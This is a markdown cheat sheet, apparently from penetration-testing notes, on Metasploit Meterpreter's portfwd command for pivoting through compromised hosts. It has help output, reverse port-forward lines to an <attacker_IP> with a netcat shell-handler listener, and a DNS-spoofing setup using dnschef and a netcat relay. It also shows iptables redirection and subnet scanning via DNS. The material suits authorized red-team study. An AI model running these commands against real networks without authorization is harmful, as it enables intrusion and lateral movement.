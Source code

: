 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - port-forward
  - scenarios
  - metasploit-framework
  - cross-platform
credits:
  - Abed Samhuri
  - Borja Merino
---
```

# Metasploit

## 01 - Help Menu

```
meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]


OPTIONS:

    -h   Help banner.
    -i   Index of the port forward entry to interact with (see the "list" command).
    -l   Forward: local port to listen on. Reverse: local port to connect to.
    -L   Forward: local host to listen on (optional). Reverse: local host to connect to.
    -p   Forward: remote port to connect to. Reverse: remote port to listen on.
    -r   Forward: remote host to connect to.
    -R   Indicates a reverse port forward.
```

## 02 - Usage

Bind port from the target.

```
meterpreter > portfwd add -l -r <target_IP> <local_port> -p <bind_port>
```

Reverse port forwarding from the compromised target.

```
meterpreter > portfwd add -R -L <attacker_IP> -r <compromised_target_IP> -l <local_port> -p <bind_port>
```

List active port forwarding rules.

```
meterpreter > portfwd list
```

Remove port forward rule.

```
meterpreter > portfwd delete -r <target_IP> -l <local_port> -p <bind_port>
```

Remove all port forwarding rules

```
meterpreter > portfwd flush
```

## 03 - Scenarios

### 3.1 - Shell Handler Reverse Callback Session

```
meterpreter > portfwd add -R -L <attacker_IP> -l 5986 -p 5986

$ nc -lnvp 5986
```

### 3.2 - Bind port and exploit

```
meterpreter > portfwd add -r <target_IP> -l <local_port> -p <bind_port>
```

### 3.3 - Bind ISCSI port and mount it

Refer to this [[07 - Tactics & Techniques & Procedures Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Cross Platform/File Server/ISCSI|section]] after a successful port forwarding.

```
meterpreter > portfwd add -r <target_IP> -l <local_port> -p 3260

# iptables -t nat -A OUTPUT -p tcp --dport 3260 -d <target_IP> -j DNAT --to-destination 127.0.0.1:<local_port>
```

### 3.4 - Reverse Bind Port Forwarding

This method is similar to this [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x05 - Pivot/Cross Platform/P2P Callback Implants/Metasploit|section]] but solely used with `portfwd` by binding it to a compromised target and can be used with not just a shell handler (or C2 frameworks), but with hosting a web server, FTP, etc.

```
meterpreter > portfwd add -R -L <attacker_IP> -l <local_port> -p <bind_port> -r <compromised_target_IP>
```

### 3.5 - DNS Port Forwarding To Perform Quick Recon

> [!NOTE]
> You must be connected in a **LAN (Local Area Network)** as this doesn't require SOCKS proxy server since this scenario does not involve when it's connected from outside the internet.

TODO: Refer to the links (under Scenarios section) with [[DNSChef]] or use just netcat to listen port 53 instead

```
meterpreter > portfwd add -r <target_IP> -l <local_port> -L 127.0.0.1 -p 53
```

```
root@hackware-os:~# dnschef --fakedomains <domain>.<tld> --fakeip '<attacker_IP>' fakealias www.<domain>.<tld> --fakens ns.<domain>.<tld> -p <local_port> -q
```

```
root@hackware-os:~# mkfifo /tmp/fifo

root@hackware-os:~# nc -lup 53 < /tmp/fifo | nc localhost 6667 > /tmp/fifo

root@hackware-os:~# cat /etc/resolv.conf
..[omitted]..
nameserver 127.0.0.1

$ cat /etc/dnsmasq.conf
..[omitted]..
```

Scan the network via DNS lookup.

```
$ for ip in 192.168.1.{1..254}; do $(host $ip 127.0.0.1); done

$ nmap -sL --dns-servers 127.0.0.1 192.168.1.0/24
```

---
## References

### Metasploit Unleashed

- [Metasploit Unleashed: Portfwd](https://www.offsec.com/metasploit-unleashed/portfwd/)

### RawSec

- [noraj: Overview of Network Pivoting and Tunneling](https://blog.raw.pm/en/state-of-the-art-of-network-pivoting-in-2019/)

### Scenarios

#### MrAcouch

- [MrAcouch:  Basic Pivoting Techniques - Putting it all together (meterpreter and covenant) ](https://www.youtube.com/watch?v=DbC195f288c)

#### Abed Samhuri

- [Abed Samhuri: How to Implement Pivoting and Relaying Techniques Using Meterpreter](https://medium.com/axon-technologies/how-to-implement-pivoting-and-relaying-techniques-using-meterpreter-b6f5ec666795)

#### Hacking Tutorials

- [Hacking Tutorials: Port forwarding - Accessing local ports remotely](https://www.hackingtutorials.org/metasploit-tutorials/metasploitable-3-port-forwarding/)

#### Security Art Work

- [Security Art Work: DNS Port Forwarding con Meterpreter](https://www.securityartwork.es/2011/06/01/dns-port-forwarding-con-meterpreter/)
